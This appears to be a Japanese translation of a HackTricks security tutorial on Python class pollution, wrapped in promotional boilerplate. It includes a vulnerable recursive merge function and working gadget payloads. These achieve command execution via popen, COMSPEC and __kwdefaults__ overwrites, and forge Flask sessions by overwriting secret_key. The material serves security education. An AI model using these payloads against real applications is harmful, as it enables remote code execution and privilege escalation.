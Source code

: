 # クラスの汚染（Pythonのプロトタイプ汚染）

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に **参加** または **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) **をフォロー** してください。
* **HackTricks** と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリに PR を提出して **ハッキングテクニックを共有** してください。

</details>

## 基本的な例

文字列でオブジェクトのクラスを汚染する方法を確認してください：
```python
class Company: pass
class Developer(Company): pass
class Entity(Developer): pass

c = Company()
d = Developer()
e = Entity()

print(c) #<__main__.Company object at 0x1043a72b0>
print(d) #<__main__.Developer object at 0x1041d2b80>
print(e) #<__main__.Entity object at 0x1041d2730>

e.__class__.__qualname__ = 'Polluted_Entity'

print(e) #<__main__.Polluted_Entity object at 0x1041d2730>

e.__class__.__base__.__qualname__ = 'Polluted_Developer'
e.__class__.__base__.__base__.__qualname__ = 'Polluted_Company'

print(d) #<__main__.Polluted_Developer object at 0x1041d2b80>
print(c) #<__main__.Polluted_Company object at 0x1043a72b0>
```
## 基本的な脆弱性の例
```python
# Initial state
class Employee: pass
emp = Employee()
print(vars(emp)) #{}

# Vulenrable function
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)


USER_INPUT = {
"name":"Ahemd",
"age": 23,
"manager":{
"name":"Sarah"
}
}

merge(USER_INPUT, emp)
print(vars(emp)) #{'name': 'Ahemd', 'age': 23, 'manager': {'name': 'Sarah'}}
```
## ガジェットの例

<details>

<summary>クラスプロパティのデフォルト値をRCE（サブプロセス）に設定する</summary>
```python
from os import popen
class Employee: pass # Creating an empty class
class HR(Employee): pass # Class inherits from Employee class
class Recruiter(HR): pass # Class inherits from HR class

class SystemAdmin(Employee): # Class inherits from Employee class
def execute_command(self):
command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

USER_INPUT = {
"__class__":{
"__base__":{
"__base__":{
"custom_command": "whoami"
}
}
}
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
#> [!] Executing: "echo Hello there", output: "Hello there"

# Create default value for Employee.custom_command
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
#> [!] Executing: "whoami", output: "abdulrah33m"
```
</details>

<details>

<summary><code>globals</code>を通じて他のクラスやグローバル変数を汚染する</summary>
```python
def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class User:
def __init__(self):
pass

class NotAccessibleClass: pass

not_accessible_variable = 'Hello'

merge({'__class__':{'__init__':{'__globals__':{'not_accessible_variable':'Polluted variable','NotAccessibleClass':{'__qualname__':'PollutedClass'}}}}}, User())

print(not_accessible_variable) #> Polluted variable
print(NotAccessibleClass) #> <class '__main__.PollutedClass'>
```
</details>

<details>

<summary>任意のサブプロセスの実行</summary>
```python
import subprocess, json

class Employee:
def __init__(self):
pass

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

# Overwrite env var "COMSPEC" to execute a calc
USER_INPUT = json.loads('{"__init__":{"__globals__":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"}}}}}}') # attacker-controlled value

merge(USER_INPUT, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up
```
</details>

<details>

<summary>__kwdefaults__の上書き</summary>

**`__kwdefaults__`**は、すべての関数の特別な属性です。Pythonの[ドキュメント](https://docs.python.org/3/library/inspect.html)によると、これは「**キーワード専用**パラメータのデフォルト値のマッピング」です。この属性を汚染することで、関数のキーワード専用パラメータのデフォルト値を制御できます。これらは\*または\*argsの後に来る関数のパラメータです。
```python
from os import system
import json

def merge(src, dst):
# Recursive merge function
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)

class Employee:
def __init__(self):
pass

def execute(*, command='whoami'):
print(f'Executing {command}')
system(command)

print(execute.__kwdefaults__) #> {'command': 'whoami'}
execute() #> Executing whoami
#> user

emp_info = json.loads('{"__class__":{"__init__":{"__globals__":{"execute":{"__kwdefaults__":{"command":"echo Polluted"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(execute.__kwdefaults__) #> {'command': 'echo Polluted'}
execute() #> Executing echo Polluted
#> Polluted
```
</details>

<details>

<summary>別ファイルでFlaskのsecretを上書きする</summary>

したがって、WebのメインPythonファイルで定義されたオブジェクトにクラスポリューションを行うことができますが、**そのクラスがメインファイルとは異なるファイルで定義されています**。前述のペイロードで\_\_globals\_\_にアクセスするには、オブジェクトのクラスまたはクラスのメソッドにアクセスする必要があるため、**そのファイルのグローバルにアクセスできますが、メインファイルではできません**。 \
したがって、メインページで**secret key**を定義したFlaskアプリのグローバルオブジェクトにアクセスすることはできません：
```python
app = Flask(__name__, template_folder='templates')
app.secret_key = '(:secret:)'
```
このシナリオでは、メインファイルにアクセスしてFlaskのシークレットキーを変更し、このキーを知ることで特権を昇格させるために、ファイルをトラバースするガジェットが必要です。

このようなペイロードは、[この解説](https://ctftime.org/writeup/36082)から取得できます：

{% code overflow="wrap" %}
```python
__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.app.secret_key
```
{% endcode %}

このペイロードを使用して、`app.secret_key`（アプリ内の名前は異なる場合があります）を変更して、新しい特権を持つFlaskクッキーに署名できるようにします。

</details>

読み取り専用のガジェットについても次のページをチェックしてください：

{% content-ref url="python-internal-read-gadgets.md" %}
[python-internal-read-gadgets.md](python-internal-read-gadgets.md)
{% endcontent-ref %}

## 参考文献

* [https://blog.abdulrah33m.com/prototype-pollution-in-python/](https://blog.abdulrah33m.com/prototype-pollution-in-python/)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学びましょう</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手してください
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**してください。
* **HackTricks**および**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。 [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)

</details>
